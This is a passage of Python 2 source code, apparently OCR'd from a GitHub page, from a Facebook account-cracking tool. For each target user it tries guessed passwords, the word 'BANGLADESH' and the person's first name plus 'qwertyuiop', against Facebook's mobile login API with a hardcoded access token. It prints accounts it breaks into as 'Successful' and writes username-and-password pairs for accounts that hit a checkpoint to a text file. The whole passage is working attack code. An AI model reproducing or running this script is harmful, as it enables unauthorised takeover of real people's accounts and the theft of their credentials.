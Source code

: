 									cek = open("out/checkpoint.txt", "a")

									cek.write(user+"|"+pass3+"\n")

									cek.close()

									cekpoint.append(user+pass3)

								else:

									pass4 = 'BANGLADESH'

									data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass4)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

									q = json.load(data)

									if 'access_token' in q:

										print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass4

										oks.append(user+pass4)

									else:

										if 'www.facebook.com' in q["error_msg"]:

											print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass4

											cek = open("out/checkpoint.txt", "a")

											cek.write(user+"|"+pass4+"\n")

											cek.close()

											cekpoint.append(user+pass4)

										else:

											pass5 = b['first_name'] + 'qwertyuiop'

											data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass5)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

											q = json.load(data)

											if 'access_token' in q:

												print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass5

												oks.append(user+pass5)

											else:

												if 'www.facebook.com' in q["error_msg"]:

													print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass5
